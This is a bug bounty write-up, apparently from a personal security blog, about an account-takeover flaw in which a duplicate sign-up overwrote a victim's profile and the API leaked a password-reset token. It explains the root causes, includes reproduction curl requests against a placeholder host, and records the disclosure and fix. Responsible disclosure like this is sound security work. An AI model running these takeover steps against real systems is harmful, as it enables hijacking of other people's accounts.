


# Overview

I found this in a private Intigriti program, and for the write-up I will call the target `example.com`. I was just doing my usual sweep in QA, poking every endpoint to understand the flow. Then I hit resend on a sign-up request by mistake and the app went, "yep, all good" for an email that already existed. That was the moment I sat up. My coffee did not survive.

Two tiny logic bugs were working together like a chaotic duo: duplicate sign-up was accepted, and the response handed me a reset token. One request later, any account could be walked out the door. This is the story of that accidental discovery and the "wait, what?" moment that followed.


# Target Snapshot

- Asset: `example.com`
- Endpoint: `/api/sign-up/`
- Severity: Critical (full account takeover)

# The Bug in One Paragraph

Imagine a bouncer who lets you in if your name is already on the list, then hands you the master key. That was the sign-up flow. It accepted an existing email, overwrote the victim profile, and returned a valid reset token in the JSON. That token then worked at `/api/sign-up/reset-password/` to change the victim password without email access. Clean, fast, and very bad.

# Story Behind It

<p align="center">(My Honest Reaction)</p>

> 

I was in that "touch everything" mindset, checking endpoints one by one. Somewhere in that flow I accidentally resent a sign-up with an email that was already registered. I expected a hard no. Instead I got a clean 201 and a shiny token in the response. That is the security version of finding money in your laundry and realizing it is not yours.

I repeated it, confirmed it, and then slowed down and wrote the steps cleanly. My first script was flaky in the QA stack, so I went old-school with raw HTTP requests. It reproduced every single time. I sent the report, did the usual triage dance, and it was accepted after a short back-and-forth. Turns out the bug was not a ghost, it was just chilling in plain sight.

# Technical Breakdown

## Root Causes

1. **Duplicate registration accepted**
	- The endpoint did not enforce unique email checks prior to write operations.
	- The request overwrote existing user profile data (first name, last name, phone, language).
	- The sign-up flow therefore behaved like an unauthenticated profile update.

2. **Sensitive token exposure**
	- The API returned a valid verification or reset token in the response body.
	- Tokens intended for out-of-band delivery (email/SMS) must never be returned to the client.

Together, these flaws allowed a single unauthenticated request to overwrite a victim profile and extract the exact token needed to reset the password.

## Why This Was Critical

- **Authentication bypass**: Any user could have their password reset without mailbox access.
- **Confidentiality loss**: Sensitive PII and financial data was exposed.
- **Integrity and availability loss**: Profile data was overwritten and the original user was locked out.

## How I Think the Backend Looked (Best Guess)

```js
if request.path == "/api/sign-up/":
    user = User.get_or_create(email=request.email)  # should be create only
    user.first_name = request.first_name
    user.last_name = request.last_name
    user.phone = request.phone
    token = generate_reset_token(user)  # should be sent via email only
    return {"token": token}
```

# Reproduction (Expanded, Still Safe)

> I am using `example.com` here. Same flow, no real target info.

**Step 1: Send a sign-up request with an existing email**

The key is that the email already exists. The API should reject it, but it does not.

```bash
curl -k -X POST "https://example.com/api/sign-up/" \
  -H "Content-Type: application/json" \
  -d '{
    "first_name": "ATO_Test",
    "last_name": "User",
    "email": "victim@example.com",
    "password": "TempPassword123!",
    "phone_number": {"value": "470000123", "country_code": {"id": 1}},
    "language": {"id": 2}
  }'
```


**Step 2: Grab the leaked token from the response**

Instead of a generic "check your email" message, the API returns a JSON body with a token:

```json
{
  "token": "eyJhbGciOiJIUzI1NiIs..."
}
```


**Step 3: Use that token to reset the password**

```bash
curl -k -X POST "https://example.com/api/sign-up/reset-password/" \
  -H "Content-Type: application/json" \
  -d '{
    "token": "eyJhbGciOiJIUzI1NiIs...",
    "password": "NewHackedPassword123!"
  }'
```


**Step 4: Log in as the victim**

At this point, the victim is locked out, their profile is overwritten, and the attacker has full access. GG, but also yikes.


**Full Exploitation Video**

<div style="display:flex; justify-content:center;">
  <video controls style="width:min(60%, 800px); max-width:100%;">
    <source src="https://d3dn0v4.github.io/assets/img/ato-duplicate-signup/0508.mp4" type="video/mp4">
  </video>
</div>

# Business Impact

- **Reputational damage** from exposure of regulated personal and financial data.
- **Fraud risk** via compromised agent or admin accounts.
- **Operational disruption** due to locked-out legitimate users and corrupted profiles.

# Disclosure Timeline

- 2026-02-03: Initial submission created with PoC details.
- 2026-02-03: Triage requested clearer manual steps; report temporarily closed.
- 2026-02-05: Manual reproduction provided; issue verified and moved to pending.
- 2026-04-07: Report accepted and bounty awarded.
- 2026-04-16: Marked as resolved.
- 2026-05-01: Archived.

# Final Thoughts

This one was a total "oops" moment that turned into a real find. The moral is simple: if sign-up can act like profile update and tokens leak in responses, you are basically handing out keys. I will take that accident, bottle it, and keep it for future hunts. Sometimes the best bugs are the ones you bump into on the way to the real bugs.

> 
